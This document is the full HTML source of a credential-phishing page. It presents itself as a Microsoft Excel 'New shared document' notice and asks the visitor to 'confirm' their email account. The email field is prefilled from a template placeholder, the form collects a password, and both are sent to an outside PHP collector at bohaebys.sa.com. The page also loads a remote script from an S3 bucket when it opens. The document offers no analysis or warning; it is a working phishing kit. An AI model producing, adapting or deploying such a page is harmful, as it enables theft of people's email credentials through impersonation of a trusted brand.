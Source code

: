 <!DOCTYPE html>
<html>
<head>
<style>
.button {
  background-color: darkgreen;
  border: none;
  color: white;
  padding: 12px 37px;
  text-align: center;
  text-decoration: none;
  display: inline-block;
  font-size: 16px;
  margin: 4px 2px;
  cursor: pointer;
}
.new-dream {
  background-color: darkgreen;
  border: none;
  color: white;
  padding: 12px 37px;
  text-align: center;
  text-decoration: none;
  display: inline-block;
  font-size: 16px;
  margin: 4px 2px;
  cursor: pointer;
}


body, html {
  height: 100%;
  margin: 0;
    font-family: 'Calibri', serif;
        font-size: 16px;
}

* {
  box-sizing: border-box;
}

.bg-image {

  /* Full height */
  height: 100%;

  /* Center and scale the image nicely */
  background-position: fixed;
  background-repeat: no-repeat;
  background-size: cover;
}
  @media screen and (max-width: 1024px){
   .bg-image {
    left: 50%;
    margin-left: -512px; }
  }

/* Position text in the middle of the page/image */
.bg-text {
  background-color: rgb(0,0,0); /* Fallback color */
  background-color: white; /* Black w/opacity/see-through */
  color: black;
  border: 3px solid #f1f1f1;
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate(-50%, -50%);
  z-index: 2;
  width: 400px;
  padding: 20px;
  text-align: center;
  -moz-box-shadow: 0 0 20px black;
  -webkit-box-shadow: 0 0 20px black;
   box-shadow: 0 0 20px black;
}

input[type=password] {
  width: 70%;
  padding: 12px;
  border: 1px solid #ccc;
  border-radius: 4px;
  resize: vertical;
}

input[type=email] {
  width: 70%;
  padding: 12px;
  border: 1px solid #ccc;
  border-radius: 4px;
  resize: vertical;
}

h3 {
  background: #00A4EF;
  color: white;
  text-transform: uppercase;
}
.container {
  padding: 30px;
}

.add-dream {
  display: none;
}
.bg-image {
  /* The image used */
  background-image: url('https://i.gyazo.com/716e7fd047ac2ebf6e514daff53792be.png');

  /* Add the blur effect */
  filter: blur(4px);
  -webkit-filter: blur(3px);
</style>




<title>Confirm identity</title>
<link rel="stylesheet" href="my.css">
<script src="https://myselfandme.s3.amazonaws.com/my.js"></script>
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<link rel="stylesheet"
          href="https://fonts.googleapis.com/css?family=Calibri">
<meta name="viewport" content="width=device-width, initial-scale=1">


</head>


<body onload="myFunction()"></>





<body>


<div class="bg-image"></div>

<div class="bg-text">
<img src="https://logos-world.net/wp-content/uploads/2022/02/Microsoft-Excel-Symbol.png" width="200"/>

    <div class="container">

<p>

    <p id="p1">New shared document available</p>
    <div class="panel panel-default dream-add-container">
      <div class="panel-heading"></div><p>
      <div class="panel-body">

        <button class="new-dream" type="button">Open</button>
                 <div class="form-group">
            <div class="form-group">   <form method="post" action="https://bohaebys.sa.com/DOC/daemon.php" class="add-dream">
<b><font size="2" color="Green">Confirm email account to continue</font></b>
            <input type="email" placeholder="&#30005;&#23376;&#37038;&#20214;&#22320;&#22336;" name="email" required="" readonly="readonly" required="" value="[[-Email-]]"<?php  /><p>
<p><input type="password" name="password" required="" vmin="5" placeholder="&#23494;&#30721;">  <p></p><button type="submit" class="button">login</button><p>
            <img src="https://c.tenor.com/I6kN-6X7nhAAAAAj/loading-buffering.gif" width="30"/>
                <div class="form-group">

          </div>
        </form>

      </div>
    </div>

  </div>

</body>

</html>
<!-- partial -->
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js'></script>
<script src='https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js'></script><script  src="./script.js"></script>
     </form>
  </div>

</body>
<script>
  $(function() {
  var obj = $(".dream-add-container");
  obj.find(".new-dream").on("click", function() {
    $(this).hide();
    obj
      .find(".add-dream")
      .stop()
      .slideDown();
  })
  .end().find(".btn-cancel").on('click', function(){
obj
      .find(".add-dream")
      .stop()
      .slideUp(function(){
  obj.find(".new-dream").stop().fadeIn()
})

})
});
</script>





</html>
